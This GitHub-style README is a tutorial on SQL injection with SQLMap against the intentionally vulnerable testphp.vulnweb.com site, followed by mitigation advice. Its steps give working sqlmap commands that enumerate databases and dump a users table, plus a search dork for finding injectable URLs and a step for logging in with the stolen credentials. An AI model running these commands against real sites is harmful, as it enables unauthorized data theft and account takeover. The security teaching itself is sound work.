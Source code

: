# SQL Injection using SQLMap in Kali Linux

## Overview
This project demonstrates how SQL injection can be used to exploit vulnerable web applications and website databases. The goal is to provide educational insights into the process.

> **Disclaimer:** This project was conducted on a sample website. The information in this document is for educational purposes only and should not be used for unethical or illegal activities.

## Objectives
- Identify SQL injection vulnerabilities in a sample environment.
- Extract sample credentials.
- Explore mitigation strategies.

---

## What is SQL Injection?
SQL Injection (SQLi) is a web security vulnerability that allows attackers to manipulate database queries by injecting malicious SQL code into input fields. This can lead to data theft, authentication bypass, or even full database control.

## Tools Used
- **Kali Linux** – A Linux distribution designed for penetration testing.
- **SQLMap** – An automated tool used to detect and exploit SQL injection vulnerabilities.

## Process Description

### Step 1: Update Kali Linux
Ensure all system packages are up-to-date using:
```bash
sudo apt update && sudo apt upgrade -y
```
Verify if SQLMap is installed:
```bash
sqlmap --version
```
If not installed, use:
```bash
sudo apt install sqlmap
```

### Step 2: Identify a Target
We use **vulnweb.com** as our test target.
1. Open a web browser and navigate to `http://testphp.vulnweb.com`.
2. Look for a webpage with a query parameter (e.g., `?id=`) by using:
   ```
   site:testphp.vulnweb.com inurl:"id="
   ```

### Step 3: Run SQLMap
Execute SQLMap to test for vulnerabilities:
```bash
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" --dbs
```
If the site is vulnerable, SQLMap will return a list of available databases.

### Step 4: Extract Data
Once a vulnerable database is found, retrieve its tables:
```bash
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" -D acuart --tables
```
Dump data from a specific table (e.g., `users`):
```bash
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" -D acuart -T users --dump
```
If successful, the extracted data will include usernames and hashed passwords.

### Step 5: Login Using Extracted Credentials
Using the extracted credentials, log into the website’s login page. **Note:** This step is for educational purposes only.

---

## Mitigation Strategies
To prevent SQL Injection attacks, consider implementing the following measures:

1. **Use Prepared Statements** – Prevent direct SQL execution by using safe database query methods like **PHP PDO**.
2. **Use ORM Frameworks** – Utilize Object-Relational Mapping (ORM) tools like **SQLAlchemy** or **Eloquent** to prevent direct SQL queries.
3. **Web Application Firewall (WAF)** – Deploy solutions like **Cloudflare WAF** or **ModSecurity** to filter malicious SQL queries.
4. **Input Validation & Whitelisting** – Validate user input to ensure it adheres to the expected format.
5. **Hide Error Messages** – Avoid exposing database errors that could provide attackers with insights into the database structure.
6. **Monitor & Log SQL Queries** – Detect suspicious SQL queries in real time.
7. **Rate Limiting & Captchas** – Restrict login attempts and query execution rates to prevent automated attacks.

---

## Legal Disclaimer
This project is strictly for educational purposes. Unauthorized access to any system without permission is illegal and punishable by law.

## License
This project is licensed under the [MIT License](LICENSE).

## Author
[karmaend] - Cybersecurity Enthusiast
